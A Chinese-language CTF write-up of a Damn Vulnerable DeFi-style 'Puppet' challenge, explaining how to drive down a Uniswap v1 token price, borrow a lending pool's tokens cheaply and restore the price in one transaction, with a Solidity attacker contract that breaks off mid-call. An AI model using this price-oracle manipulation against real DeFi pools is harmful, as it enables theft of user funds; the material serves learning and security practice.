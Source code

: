 ### 题解

这道题的解题思路和上题类似，在pool提供了borrow方法中使用了uniswap作为token的价格预言机，那么我们的攻击思路就是通过操纵uniswap中token的价格以在pool中低价买入token

本题提供的是uniswap v1合约，且题目只给了合约的abi和bytecode，首先整理下uniswap v1的接口及我们需要用到的方法

```solidity
// 计算卖出token能换出多少eth
function tokenToEthSwapInput(uint256 tokens_sold, uint256 min_eth, uint256 deadline) external returns (uint256);
// 计算买入token需要多少eth
function ethToTokenSwapOutput(uint256 tokens_bought, uint256 deadline) external returns (uint256);
```

完整的攻击流程如下图所示：

- 第一步通过调用`tokenToEthSwapInput` 以卖出手中的token获得eth，从而降低在uniswap中的token价格
- 第二步在token价格降低后，调用`lendingPool.borrow` 方法，以低价买入token
- 第三步再通过调用`ethToTokenSwapOutput` ，用手中的eth买入token来恢复uniswap中的token价格

![image](https://pic.imgdb.cn/item/654e6782c458853aef79066e.jpg)


通过将这三步在一笔交易内完成，player可以获取lendingPool中的全部token从而实现攻击目标

在具体实现时，值得注意的是**授权**步骤，因为题目要求在一笔交易内完成，但是使用uniswap又需要approve，因此涉及从player到攻击合约到uniswap的三级approve，在一笔交易内是无法实现的。

但通过看`DamnValuableToken` 的实现代码，可以看到它实现的ERC20协议中包括了拓展的`EIP- 2612 LOGIC` ，包含的就是permit逻辑，即通过用户在链下预签名，再提供到链上进行验证，从而实现了代理approve的机制，具体关于ERC-2612可以看另一篇[文章的介绍](https://www.hackdefi.xyz/erc2612/)

完整的合约代码如下：
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../../src/puppet/PuppetPool.sol";
import "../../src/DamnValuableToken.sol";

contract Attacker {
    DamnValuableToken token;
    PuppetPool pool;

    receive() external payable{} // receive eth from uniswap

    constructor(uint8 v, bytes32 r, bytes32 s,
                uint256 playerAmount, uint256 poolAmount,
                address _pool, address _uniswapPair, address _token) payable{
        pool = PuppetPool(_pool);
        token = DamnValuableToken(_token);
        prepareAttack(v, r, s, playerAmount, _uniswapPair);
        // swap token for eth --> lower token price in uniswap
        _uniswapPair.call(abi.encodeWithSignature(
            "tokenToEthSwapInput(uint256,uint256,uint256)",
            playerAmount,
            1,
            type(uint256).max
        ));
        // borrow token from puppt pool
        uint256 ethValue = pool.calculateDepositRequired(poolAmount);
        pool.borrow{value: ethValue}(
            poolAmount, msg.sender
        );
        // repay tokens to uniswap --> recovery balance in uniswap
        _uniswapPair.call{value: 10 ether}(
            abi.encodeWithSignature(
```